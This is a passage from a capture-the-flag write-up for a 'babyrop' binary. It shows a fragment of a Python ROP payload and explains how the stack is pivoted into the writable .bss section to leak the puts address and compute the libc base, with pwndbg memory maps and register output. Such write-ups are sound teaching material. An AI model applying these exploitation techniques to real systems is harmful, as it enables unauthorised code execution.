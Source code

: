 ```python
        0x0000000000401211,
        elf.sym.main] # This is the value at address 0x0000000000404150
})
```
This is our second payload. We are setting `rbp` to `puts+0x20` and `rip` to `0x0000000000401211` which is `puts` address in main function. After this we can leak the `puts` address and calculate the `libc` base address.<br>
Answering Some Questions:<br>
1. What is the need to increase to stack by padding `ret ` instruction?<br>
    If you directly invoke functions like `puts()`, the program may crash because `puts()` and similar functions make several nested calls, each creating its own stack frame (typically via `sub rsp, ...`). In this challenge, the stack is pivoted into the `.bss` section, which is writable, but if the stack pointer (`rsp`) moves into a non-writable region (like `0x403000`), any further stack operations will cause a segmentation fault.

    To prevent this, we use a sequence of dummy instructions (such as repeated `ret` or `pop` gadgets) to incrementally move the stack pointer deeper into the writable `.bss` section. This ensures that all subsequent function calls have enough writable stack space for their frames, avoiding stack underflows into non-writable memory and preventing crashes.
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /home/delete/CTFs/SmileyCTF/babyrop/vuln
          0x401000           0x402000 r-xp     1000   1000 /home/delete/CTFs/SmileyCTF/babyrop/vuln
          0x402000           0x403000 r--p     1000   2000 /home/delete/CTFs/SmileyCTF/babyrop/vuln
          0x403000           0x404000 r--p     1000   2000 /home/delete/CTFs/SmileyCTF/babyrop/vuln
          0x404000           0x405000 rw-p     1000   3000 /home/delete/CTFs/SmileyCTF/babyrop/vuln
    0x7ffff7c00000     0x7ffff7c28000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7c28000     0x7ffff7db0000 r-xp   188000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7db0000     0x7ffff7dff000 r--p    4f000 1b0000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7dff000     0x7ffff7e03000 r--p     4000 1fe000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e03000     0x7ffff7e05000 rw-p     2000 202000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e05000     0x7ffff7e12000 rw-p     d000      0 [anon_7ffff7e05]
    0x7ffff7f9e000     0x7ffff7fa1000 rw-p     3000      0 [anon_7ffff7f9e]
    0x7ffff7fbd000     0x7ffff7fbf000 rw-p     2000      0 [anon_7ffff7fbd]
    0x7ffff7fbf000     0x7ffff7fc3000 r--p     4000      0 [vvar]
    0x7ffff7fc3000     0x7ffff7fc5000 r-xp     2000      0 [vdso]
    0x7ffff7fc5000     0x7ffff7fc6000 r--p     1000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc6000     0x7ffff7ff1000 r-xp    2b000   1000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ff1000     0x7ffff7ffb000 r--p     a000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  36000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  38000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```
2. Why `0x0000000000404150` is used as `rbp`?<br>
    We are setting the value at `0x0000000000404150` to the address of `main` function in `.bss` section. 
    You ask why? Because when we counter `leave; ret` instruction, in out payload-1 first it changes to our `rbp` to `0x404058` and next we are using gets function to our next payload.<br>
    You can see register values in gdb:
    ```
     RBP  0x404058 ◂— 0
     RSP  0x7ffd17b46090 —▸ 0x7ffd17b46000 —▸ 0x7ffd17b46050 —▸ 0x7ffd17b46080 —▸ 0x404058 ◂— ...
    *RIP  0x40120c (main+61) ◂— call gets
    ```